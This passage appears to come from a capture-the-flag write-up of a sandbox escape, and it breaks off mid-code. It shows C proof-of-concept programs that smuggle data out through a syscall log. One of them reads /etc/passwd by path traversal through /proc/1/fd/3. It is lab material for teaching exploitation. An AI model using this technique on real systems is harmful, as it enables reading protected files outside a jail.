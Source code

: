 ### Exfil Strategy

The only output I’ll get from the uploaded binary is a series of syscalls,
their arguments, and return values. To keep it simple, I’ll have my binary
write the data to 64 byte chunks, setting the syscall to something I can pick
out and wouldn’t expect otherwise (0xdfdf), and the return value to the next
eight bytes of exfil. Then I can scrape down the syscalls from the page and
use the return code data to rebuild that file.

### Exploit

Finding the exploit is very complicated and difficult. Actually writing it is,
by comparison, not too bad.

#### Write Into Log

To start, I’ll prove that I can write to the `/log` file something that I can
collect in the output.

    
    
    #include <stdio.h>
    
    int main() {
        FILE *log = fopen("/log", "a");
        char buf[64] = {0};
        ((unsigned long*)buf)[0] = 0xdfdf;
        fwrite(buf,1,64,log);
    
        fclose(log);
    }
    

This simply creates a 64 byte buffer, sets the first element to 0xdfdf (57311
in decimal), writes that to the log, and exits. If this works, I’d expect to
see a Syscall 57311 in the logs with return 0.

I’ll compile the binary with `gcc -o poc read_file.c`, and upload `poc`. In
the results, in the “Ignored Syscalls” section, I’ll find it:

![image-20220907141700007](https://0xdfimages.gitlab.io/img/image-20220907141700007.png)

#### Read File

Now I’ll try to read a file outside the jail and put the first eight bytes
into that same log:

    
    
    #include <stdio.h>
    
    int main() {
        FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
        FILE *log = fopen("/log", "a");
        char buf[64] = {0};
        ((unsigned long*)buf)[0] = 0xdfdf;
        fread(&buf[56], 1, 8, file_to_read);
        fwrite(buf,1,64,log);
    